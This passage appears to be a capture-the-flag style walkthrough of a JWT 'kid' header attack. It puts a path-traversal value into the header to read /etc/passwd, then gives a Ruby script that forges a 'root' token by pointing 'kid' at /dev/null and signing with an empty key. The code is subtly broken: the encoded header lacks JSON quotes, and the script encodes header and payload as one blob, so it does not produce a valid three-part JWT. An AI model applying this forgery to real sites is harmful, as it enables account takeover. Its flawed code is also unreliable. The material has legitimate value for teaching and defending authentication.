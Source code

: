 Currently `kid` is `1` now let's replace `1` with `./../../../etc/passwd` and again encode it and send it to the site.

```json
{
  "typ":"JWT",
  "alg":"HS256",
  "kid":"./../../../etc/passwd"
}
```

After Encoding Header:

`e3R5cDpKV1QsYWxnOkhTMjU2LGtpZDouLy4uLy4uLy4uL2V0Yy9wYXNzd2R9Cg`

Full Token:

`e3R5cDpKV1QsYWxnOkhTMjU2LGtpZDouLy4uLy4uLy4uL2V0Yy9wYXNzd2R9Cg.eyJ1c2VyIjoiYW5hcyJ9.spzCikhspCdf6XAUci3R4EpJOH6gvZcvkDCVrkGbx7Y`

replace this with the old token and refresh and voila! we got LFI.

Now let's forge our token and become root user on the site.
For this we need to write simple script in python/ruby.

#### Ruby Script

we need to understand first how to sign our token using ruby don't worry it is very simple.

`OpenSSL::HMAC.hexdigest("SHA256", key, data)`

we can import `openssl` and use the above line as it is.
for more info refer this => [openssl_hmac](https://ruby-doc.org/stdlib-2.4.0/libdoc/openssl/rdoc/OpenSSL/HMAC.html).

```ruby
require 'base64'
require 'openssl'

header = '{"typ": "JWT","alg": "HS256","kid": "../../../../../../../../dev/null"}'

payload = '{"user": "root"}'

token = header+"."+payload
newtoken = Base64.strict_encode64(token).gsub("=","")

key = ""

sig = OpenSSL::HMAC.digest(OpenSSL::Digest.new("SHA256"), key, newtoken)

newsig = Base64.strict_encode64(sig).gsub("=", "")
puts newtoken+"."+newsig
```

In the above script we are requesting `/dev/null` which is empty/null file and passing empty value in `key` therefore, Both values are empty and at the time of verification the site will verify the token as a result you will get logged in as `root` user.
